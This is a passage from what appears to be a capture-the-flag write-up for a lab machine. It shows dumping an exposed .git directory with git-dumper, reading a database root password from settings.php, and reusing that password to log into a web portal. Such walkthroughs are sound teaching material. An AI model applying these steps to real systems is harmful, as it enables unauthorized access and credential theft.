 From directories enumeration we can look a .git folder. Try to dump the repo with git-dumper tool.

```bash
git-dumper http://dog.htb/.git ./repo-dumped
```

Read the settings.php file and we can get a root password of database.&#x20;

```bash
cat settings.php

[..snip..]
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
[..snip..]
```

### Password reuse

Try to login in the portal using the password found in the `settings.php` file and the user found in the `/files` directory.

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We get in

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>
